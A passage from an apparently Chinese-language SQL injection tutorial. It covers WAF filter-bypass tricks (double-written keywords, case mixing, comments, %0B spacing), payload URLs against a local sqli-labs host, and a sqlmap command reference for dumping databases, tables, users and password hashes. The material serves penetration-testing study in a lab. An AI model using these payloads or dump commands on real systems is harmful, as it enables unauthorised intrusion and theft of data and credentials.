2) 编码
3) 添加注释/*or*/
4) 利用符号 and=&&，or=||
5) 双写and=anandd,or=oorr

### 4.2.3.**#或--+过滤绕过**

1) 单引号闭合需要在后面增加一个单引号即可
2) 双引号闭合需要在后面注入语句后面增加一个双引号
3) ('')单引号加括号这种需要多加一个or ('')=('1
4) ("")双引号加括号这种需要多加一个or ("")=("1
5) or ‘1’=’1进行闭合。

### 4.2.4.**union，select等关键字过滤绕过**

1) 大小写绕过uNIon,sEeCt
2) 双写绕过uniunionon,selselctct
3) 注释符绕过U/**/nion
4) 内联注释/*!union*/
5) 编码绕过

### 4.2.5.**等号过滤绕过**

1) 大于号小于号替代等号
2) like绕过

### 4.2.6.**函数过滤绕过**

1) 同功能函数替换mid()替换substring()
2) 各类编码绕过

当然还存在很多的绕过方式，可能还存在很多奇奇怪怪的绕过姿势，这里就总结一下常见的。

## 4.3.**3.案例**

案例这里只测试绕过方式，不会一直注入至获取数据，除了绕过检测，和其他的案例不一样，后续的注入手法都是差不多的。

### 4.3.1.**案例**sql-labs-less-25 or/and绕过

#### 4.3.1.1.**双写绕过**

URL：http://192.168.10.150/sqlilabs/Less-25/?id=1' anandd 1=2--+

 

后面使用到的所有的函数单词中涉及or或and都需要双写，不然会被过滤。

至于使用报错还是布尔亦或者延迟都可以，可能会存在有些盲注使用不了还可以使用联合查询，使用什么方式可以自己进行测试。

### 4.3.2.**案例**sql-labs-less-23 注释符绕过

#### 4.3.2.1.**构造干扰字符闭合**

URL：http://192.168.10.150/sqlilabs/Less-23/?id=1' anandd '1'='2--+

 

### 4.3.3.**案例**sql-labs-less-26 空格绕过

这一关涉及到了and或or过滤，空格过滤，注释符过滤。至于空格为什么没使用编码绕过，是因为搭建的环境不识别，所以就使用了括号绕过，但前提是括号没被过滤。

#### 4.3.3.1.**括号绕过**

URL：http://192.168.10.150/sqlilabs/Less-26/?id=1'anandd(updatexml(1,0x7e,1))anandd'

 

### 4.3.4.**案例**sql-labs-less-27 关键词过滤

#### 4.3.4.1.**大小写绕过**

URL：http://192.168.10.150/sqlilabs/Less-27/?id=-100'%0BunIon%0BSelEcT%0B1,database(),3'

 

这里我是Windows平台的php5.4.45+apache，使用各种编码都过不了空格，后面尝试了%0B发现能过去，可以尝试尝试。

## 4.4.**总结**

在做WAF绕过测试的时候，按照sqliabs中这些后面的关卡中制作的过滤机制在测试的时候存在一些小bug以及一些Windows平台无法解析的编码问题。

WAF绕过的办法还是很多的，但是确实失败的概率也高，所以需要耐心解析，在实际应用中，个人感觉WAF绕过，一次两次测试没有问题，次数多了，估计管理员那边也就发现了。包括一些设定了阈值的机制，相对来说WAF绕过还是比较艰难的。

# 5.**sqlmap工具注入**

## 5.1.**sqlmap介绍**

### 5.1.1.**sqlmap简介**

#### 5.1.1.1.**sqlmap简介**

Sqlmap是一个开源的渗透测试工具，可以用来自动化的检测，利用SQL注入漏洞，获取数据库服务器的权限。它具有功能强大的检测引擎，针对各种不同类型数据库的渗透测试的功能选项，包括获取数据库中存储的数据，访问操作系统文件甚至可以通过外带数据连接的方式执行操作系统命令。

#### 5.1.1.2.**sqlmap支持**

目前支持的数据库有MySQL、Oracle、PostgreSQL、Microsoft SQL Server、Microsoft Access等大多数据库。

### 5.1.2.**sqlmap支持的注入方式**

Sqlmap全面支持六种SQL注入技术：

基于布尔类型的盲注：即可以根据返回页面判断条件真假的注入。

基于时间的盲注：即不能根据页面返回的内容判断任何信息，要用条件语句查看时间延迟语句是否已执行(即页面返回时间是否增加)来判断。

基于报错注入：即页面会返回错误信息，或者把注入的语句的结果直接返回到页面中。

联合查询注入：在可以使用Union的情况下的注入。

堆查询注入：可以同时执行多条语句时的注入。

带外注入：构造SQL语句，这些语句在呈现给数据库时会触发数据库系统创建与攻击者控制的外部服务器的连接。以这种方式，攻击者可以收集数据或可能控制数据库的行为。

### 5.1.3.**sqlmap安装**

该工具可以在kail中是自带的。

## 5.2.**sqlmap使用**

### 5.2.1.**常用参数**

命令：Sqlmap -u "http://192.168.10.150/sqlilabs/Less-1/?id=1"  

\#探测该页面是否存在漏洞。

命令：sqlmap -u "http://192.168.10.150/sqlilabs/Less-1/?id=1" --cookie="抓取的cookie"  

\#当网站需要登录时，探测该页面是否存在漏洞。

命令：sqlmap -u "http://192.168.10.150/sqlilabs/Less-1/?id=1" --data="username=admin&password=admin&submit=submit" 

\#抓取其post提交的数据填入

命令：sqlmap -u "http://192.168.10.150/sqlilabs/Less-1/?id=1" --dbs     

\#爆出所有的数据库

命令：sqlmap -u "http://192.168.10.150/sqlilabs/Less-1/?id=1" --tables   

\#爆出所有的数据表

命令：sqlmap -u "http://192.168.10.150/sqlilabs/Less-1/?id=1" --columns   

\#爆出数据库中所有的列

命令：sqlmap -u "http://192.168.10.150/sqlilabs/Less-1/?id=1" --current-db 

\#查看当前的数据库

命令：sqlmap -u "http://192.168.10.150/sqlilabs/Less-1/?id=1" -D security --tables  

\#爆出数据库security中的所有的表

命令：sqlmap -u "http://192.168.10.150/sqlilabs/Less-1/?id=1" -D security -T users --columns  

\#爆出security数据库中users表中的所有的列

命令：sqlmap -u "http://192.168.10.150/sqlilabs/Less-1/?id=1" -D security -T users -C username --dump   

\#爆出数据库security中的users表中的username列中的所有数据

命令：sqlmap -u "http://192.168.10.150/sqlilabs/Less-1/?id=1" -D security -T users -C username --dump --start 1 --stop 100   

\#爆出数据库security中的users表中的username列中的前100条数据

sqlmap -u "http://192.168.10.150/sqlilabs/Less-1/?id=1" -D security -T users --dump-all 

\#爆出数据库security中的users表中的所有数据

sqlmap -u "http://192.168.10.150/sqlilabs/Less-1/?id=1" -D security --dump-all 

\#爆出数据库security中的所有数据

sqlmap -u "http://192.168.10.150/sqlilabs/Less-1/?id=1" --dump-all  

\#爆出该数据库中的所有数据

sqlmap -u "http://192.168.10.150/sqlilabs/Less-1/?id=1" --users    

\#查看数据库的所有用户

sqlmap -u "http://192.168.10.150/sqlilabs/Less-1/?id=1" --passwords  

\#查看数据库用户名的密码

有时候使用 --passwords 不能获取到密码，则可以试下

-D mysql -T user -C host,user,password --dump  

当MySQL< 5.7时

-D mysql -T user -C host,user,authentication_string --dump  

当MySQL>= 5.7时

sqlmap -u "http://192.168.10.150/sqlilabs/Less-1/?id=1" --current-user  

\#查看数据库当前的用户

sqlmap -u "http://192.168.10.150/sqlilabs/Less-1/?id=1" --is-dba   

\#判断当前用户是否有管理员权限

sqlmap -u "http://192.168.10.150/sqlilabs/Less-1/?id=1" --roles   

\#列出数据库所有管理员角色，仅适用于oracle数据库的时候

## 5.3.**案例**

### 5.3.1.**案例**sql-labs-less-1 测试注入

#### 5.3.1.1.**探测是否存在漏洞**

命令：sqlmap -u http://192.168.10.150/sqlilabs/Less-1/?id=1

 

#### 5.3.1.2.**查询当前用户下的所有数据库**

命令：sqlmap -u http://192.168.10.150/sqlilabs/Less-1/?id=1 -dbs

 

#### 5.3.1.3.**获取数据库中的表**

命令：sqlmap -u http://192.168.10.150/sqlilabs/Less-1/?id=1 -D security -tables

 

 

#### 5.3.1.4.**获取表中的字段数**

命令：sqlmap -u http://192.168.10.150/sqlilabs/Less-1/?id=1 -D security -T users -columns

#### 5.3.1.5.**获取字段内容**

命令：sqlmap -u http://192.168.10.150/sqlilabs/Less-1/?id=1 -D security -T users -C username,password -dump

 

### 5.3.2.**案例**sql-labs-less-1 其他注入

#### 5.3.2.1.**获取数据库下所有用户**

命令：sqlmap -u http://192.168.10.150/sqlilabs/Less-1/?id=1 -users   

 

#### 5.3.2.2.**获取数据库下密码**

命令：sqlmap -u http://192.168.10.150/sqlilabs/Less-1/?id=1 -passwords

 

#### 5.3.2.3.**查看数据库当前用户**

命令：sqlmap -u http://192.168.10.150/sqlilabs/Less-1/?id=1 -current-user

 